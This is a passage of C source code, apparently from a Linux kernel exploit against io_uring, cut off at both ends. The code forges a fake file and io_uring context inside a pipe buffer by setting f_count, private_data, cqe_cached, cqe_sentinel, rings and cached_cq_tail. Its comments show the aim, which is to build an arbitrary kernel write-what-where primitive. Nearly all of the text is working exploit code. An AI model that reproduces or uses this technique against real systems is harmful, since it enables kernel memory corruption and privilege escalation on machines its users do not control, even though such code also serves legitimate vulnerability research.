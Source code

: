 ```c

        // Add to comm buf
        comm[i] = arg;
    }
}

void write_setup_ctx(char *buf, uint32_t what, uint64_t where)
{
    // Copy our copied real ring fd 
    memcpy(&buf[g_off], g_ring_copy, 256);

    // Set f->f_count to 1 
    uint64_t *count = (uint64_t *)&buf[g_off + 0x38];
    *count = 1;

    // Set f->private_data to our scratch space
    uint64_t *private_data = (uint64_t *)&buf[g_off + 0xc8];
    *private_data = g_scratch;

    // Set ctx->cqe_cached
    size_t cqe_cached = g_scratch + 0x240;
    cqe_cached &= 0xFFF;
    uint64_t *cached_ptr = (uint64_t *)&buf[cqe_cached];
    *cached_ptr = NULL_MEM;

    // Set ctx->cqe_sentinel
    size_t cqe_sentinel = g_scratch + 0x248;
    cqe_sentinel &= 0xFFF;
    uint64_t *sentinel_ptr = (uint64_t *)&buf[cqe_sentinel];

    // We need ctx->cqe_cached < ctx->cqe_sentinel
    *sentinel_ptr = NULL_MEM + 1;

    // Set ctx->rings so that ctx->rings->cq.tail is written to. That is at 
    // offset 0xc0 from cq base address
    size_t rings = g_scratch + 0x10;
    rings &= 0xFFF;
    uint64_t *rings_ptr = (uint64_t *)&buf[rings];
    *rings_ptr = where - 0xc0;

    // Set ctx->cached_cq_tail which is our what
    size_t cq_tail = g_scratch + 0x250;
    cq_tail &= 0xFFF;
    uint32_t *cq_tail_ptr = (uint32_t *)&buf[cq_tail];
    *cq_tail_ptr = what;

    // Set ctx->cq_wait the list head to itself (so that it's "empty")
    size_t real_cq_wait = g_scratch + 0x268;
    size_t cq_wait = (real_cq_wait & 0xFFF);
    uint64_t *cq_wait_ptr = (uint64_t *)&buf[cq_wait];
    *cq_wait_ptr = real_cq_wait;
}

void write_what_where(uint32_t what, uint64_t where)
{
    // Reset the page contents
    reset_pipe_buf();

    // Setup the fake file target ctx
    char buf[4096] = { 0 };
    write_setup_ctx(buf, what, where);

    // Set contents
```